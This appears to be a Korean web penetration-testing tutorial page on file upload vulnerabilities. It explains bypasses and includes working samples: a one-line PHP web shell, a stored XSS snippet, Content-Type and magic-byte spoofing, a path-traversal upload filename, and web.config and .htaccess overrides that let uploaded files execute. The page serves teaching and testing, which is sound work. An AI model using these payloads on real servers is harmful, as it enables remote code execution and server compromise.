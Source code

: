 ```yaml
---
title: File Upload Vulnerability
layout: default
parent: Web Penetration Test
nav_order: 2.5
description: "Web hacking"
---
```


# File Upload Vulnerability (파일 업로드 취약점)

{: .no_toc }

## Table of Contents
{: .no_toc .text-delta }

1. TOC
{:toc}

## What is file upload vulnerability (파일 업로드 취약점이란)

파일 업로드 취약점이란, 웹 서버에서 사용자가 파일을 업로드할때, 파일의 이름, 타입, 내용, 사이즈 등 다양한 정보들을 점검을 안하고 서버에 저장을 할때, 업로드 취약점이 발생 합니다.

웹서버에서 보통 위험한 파일 타입, 속성들을 막지만 이러한 설정을 똑바로 하지않으면 타입 같은경우, 여러 파일타입을 같이 넣어서 웹서버에 혼동을 줄수도 있고, 속성 같은경우, 웹 프록시로 수정하여 우회 할수도 있을것 입니다. 

## What is the impact of file upload vulnerablity (파일 업로드 취약점의 임팩트)

서버가 마비되거나, Remote Command Execution (RCE), 파일 업로드를 트로이젠으로 쓴다거나, 등 같은 다양한 크리티컬한 취약점을 발생 시킬수 있습니다. 

## How web servers handle request for static files (웹 서버에서 Static File의 대한 핸들링)

- Non Executable File (실행이 불가능한 파일): 웹 서버에서 파일 컨텐츠를 HTTP Resposne로 그냥 보낼수 있습니다. 이러한 경우, 웹 서버에서 해당 파일을 읽게되는 경우 Stored XSS 취약점이 발생 할 수 있습니다.


{: .important-title }
> Proof of Concept
> {: .label .label-blue }
>```
><html>
><script>alert("NO FILTER?")
></html>
>```

- Executable File (실행이 가능한 파일): 웹 서버에서 해당 파일 컨텐츠를 실행이 가능하게 시켰을 경우, 서버는 스크립트를 실행하기 전에 HTTP 요청의 헤더와 파라미터를 기반으로 변수를 할당합니다. 그 결과로 생성된 출력물은 HTTP 응답으로 클라이언트에게 전송 될수 있습니다.

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
>```
><?php echo system($_GET['cmd']); ?>
>```

위의 POC경우, `?cmd=` 파라미터로 해당 코드를 실행 할수 있을것 입니다.

- Executable File (실행이 가능한 파일): 웹 서버에서 파일을 실행하도록 설정이 안되어 있다면, 일반적으로 Error로 응답합니다. 하지만 경우에 따라서 파일이 Plain Text로 클라이언트에게 그대로 전송되게 할수 있습니다.


## Bypassing file type validation (파일 타입 우회)

보통 파일 업로드를 진행을 할때, `Content-Type` 헤더가 들어갑니다. 이러한 헤더는 웹 서버에게 "MIME" 타입을 알려주는 역할을 하게 됩니다. 그러면 웹서버가 `Content-Type` 헤더를 보고 예측되는 "MIME" 타입이 맞게 되면 파일 업로드를 허용합니다.

허나 문제가 발생하는 경우는 웹서버가 파일의 실제 내용을 점검을 안하고 오로지 "MIME" 타입과 `Content-Type` 매칭을 보고 판단을 할경우 `Content-Type`을 바꿔서 해당 필터링을 우회 할 수 있습니다. 

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
>```
>Content-Type: image/jpeg 
>```

### Magic Byte bypass (매직바이트 우회)

Magic Byte(매직 바이트)는 File Signature처럼 앞에 처음 몇몇 바이트가 파일타입을 인식하는데 쓰이는것을 의미합니다.

매직바이트를 확인할려면 다음과 같은 명령어를 써볼수 있습니다.

```
file website.jpg # 파일 타입 확인 명령어
xxd website.jpg | head # 헥스데이터 명령어
```

여러 매직바이트들이 파일타입들에 따라 존재하게 되는데 다음과 같이 `.txt`파일을 `GIF87a`라는 매직바이트를 앞에 넣어서 사진파일로 인식시킬수 있습니다.

```
echo -n -e 'GIF87a' > file.txt
```
## File Upload from in user accessible directory (파일 업로드 위치 우회)

웹서버에서 악성파일 업로드를 성공적으로 업로드를 했다 하여도, 여러 문제점들이 아직 남아있을수 있습니다.

1. 업로드한 파일이 실행이 가능한가?
2. 업로드한 파일의 PATH를 아는가?

이러한 것들을 확인하기 위해서는 확실히 알아야될 것은 업로드가 되는 파일의 PATH를 알아야된다는 것입니다.

이러한 우회로 파일업로드를 할때, `filename` 에서 Path Traversal 공격을 시도해 볼수 있습니다. 

```
Content-Disposition: form-data; name="avatar"; filename="../../../../../../../wwwroot/exploit.php"
```
웹사이트를 돌아다니면서 찾은 PATH들로 Path Traversal공격을 시도할수 있을것 입니다.

## Overriding the Server Configuration (서버 설정 파일을 업로드해서 우회)

앞서 말했다 싶이 웹 서버는 해당 파일을 실행하게 설정이 되지 않는이상 파일을 실행시키진 않습니다. 예를들어서 아파치 서버에 `.php` 파일을 사용자의 요청에 따라 실행하고 싶을 경우 `/etc/apache2/apache2.conf` 파일에 다음과 같은 설정을 했을것입니다.

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```

이러한 설정 파일 같이 여러 config파일들을 업로드해서 웹서버가 파일을 실행시키거나 config 파일 자체에서 악성 코드를 실행 시킬수 있게도 할 수 있습니다.

### web.config RCE

Proof of Concept:

```html
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Dim oShell, sCommand
sCommand = ""
Set oShell = Server.CreateObject("WScript.Shell")
oShell.Run sCommand, , True
Set oShell = Nothing
Response.write("<!-"&"-")
%>
-->
```
### .htaccess RCE 

`.htaccess` 는 아파치 웹 서버 디렉토리를 설정하는 기본적인 파일입니다. 만약 웹서버에 `.htaccess`를 Override 할 수 있다면, 다음과 같은 공격들을 수행 할수 있습니다.

1. `AddType application/x-httpd-php .txt`를 `.htaccess` 파일을 올려 덮어씌운다음 `webshell.txt`등으로 `txt`파일을 업로드 하였지만 php로 실행시킬수 있을것 입니다.

2. `php_flag engine off`를 사용할 경우, 엔진을 종료시켜 php코드가 유출이 됩니다.

## Reference
1. https://kangsecu.tistory.com/99
